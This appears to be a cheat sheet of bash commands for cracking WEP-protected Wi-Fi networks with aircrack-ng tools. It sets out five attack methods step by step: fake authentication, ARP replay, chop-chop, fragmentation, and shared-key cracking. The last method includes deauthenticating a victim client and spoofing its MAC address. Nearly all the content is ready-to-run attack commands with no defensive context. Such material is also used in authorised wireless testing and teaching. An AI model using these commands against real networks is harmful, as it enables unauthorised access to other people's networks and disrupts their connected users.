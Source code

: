 ```bash
iwconfig wlan0 channel <SetChannel(1-14)>
```

[[WEP]] Cracking
```bash
# Method 1 : Fake Authentication Attack
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> wlan0mon
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b <BSSID> -h <OurMac> wlan0mon
aircrack-ng -b <BSSID> <PCAP_of_FileName>

# Method 2 : ARP Replay Attack
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -3 -x 1000 -n 1000 -b <BSSID> -h <OurMac> wlan0mon
aircrack-ng -b <BSSID> <PCAP_of_FileName>

# Method 3 : Chop Chop Attack
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
aireplay-ng -4 -b <BSSID> -h <OurMac> wlan0mon
 #Press ‘y’ ;
packetforge-ng -0 -a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
aireplay-ng -2 -r <FileName2> wlan0mon
aircrack-ng <PCAP_of_FileName>

# Method 4 : Fragmentation Attack
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
aireplay-ng -5 -b <BSSID> -h < OurMac > wlan0mon
#Press 'y' ;
packetforge-ng -0 -a <BSSID> -h < OurMac > -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
aireplay-ng -2 -r <FileName2> wlan0mon
aircrack-ng <PCAP_of_FileName>

# Method 5 : SKA (Shared Key Authentication) Type Cracking
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon
ifconfig wlan0mon down
macchanger --mac <VictimMac> wlan0mon
ifconfig wlan0mon up
aireplay-ng -3 -b <BSSID> -h <FakedMac> wlan0mon
aireplay-ng --deauth 1 -a <BSSID> -h <FakedMac> wlan0mon
aircrack-ng <PCAP_of_FileName>
```

